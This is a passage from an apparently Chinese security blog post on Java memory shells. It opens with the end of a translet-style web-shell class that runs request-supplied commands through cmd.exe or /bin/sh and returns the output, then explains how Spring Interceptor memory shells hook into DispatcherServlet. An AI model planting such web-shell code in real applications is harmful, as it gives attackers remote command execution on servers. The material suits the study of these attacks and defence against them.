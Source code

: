 ```java
                String o = "";
                ProcessBuilder p;
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                } else {
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next() : o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            } else {
                response.sendError(404);
            }
        } catch (Exception e) {
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```
![](https://img-blog.csdnimg.cn/edfa49995ec24bbba916b9e836d5ea29.png)

### Interceptor内存马
这里的 Interceptor 是指 Spring 中的拦截器，定义拦截器必须实现HandlerInterceptor接口，HandlerInterceptor接口中有三个方法：

1. preHandle方法是controller方法执行前拦截的方法
可以使用request或者response跳转到指定的页面
return true放行，执行下一个拦截器，如果没有拦截器，执行controller中的方法
return false不放行，不会执行controller中的方法
2. postHandle是controller方法执行后执行的方法，在JSP视图执行前
可以使用request或者response跳转到指定的页面
如果指定了跳转的页面，那么controller方法跳转的页面将不会显示
3. afterCompletion方法是在JSP执行后执行
request或者response不能再跳转页面了


下断点进行分析，可以看到在经过 Filter 层面处理后，就会进入`org.springframework.web.servlet.DispatcherServlet` 类的 doDispatch 方法中
![](https://img-blog.csdnimg.cn/aa45a11d3b9d4a338323d23fcdd83ebc.png)
跟进getHandler方法
![](https://img-blog.csdnimg.cn/87f55e69ff264eb88a2cf768046407e2.png)
第一个mapping是`RequestMappingHandlerMapping`对象，它的getHandler方法实际上会调用`AbstractHandlerMapping`类的getHandler方法，在该方法中会调用getHandlerExecutionChain方法
![](https://img-blog.csdnimg.cn/4966689331b54817a178ece36db0eb11.png)
getHandlerExecutionChain会遍历`this.adaptedInterceptors`对象里所有的 HandlerInterceptor类实例，匹配当前请求url，和拦截器中的url匹配的话，会通过`chain.addInterceptor`把已有的所有拦截器加入到需要返回的HandlerExecutionChain类实例中
![](https://img-blog.csdnimg.cn/a33963109398428ebe6e59abd2a44586.png)
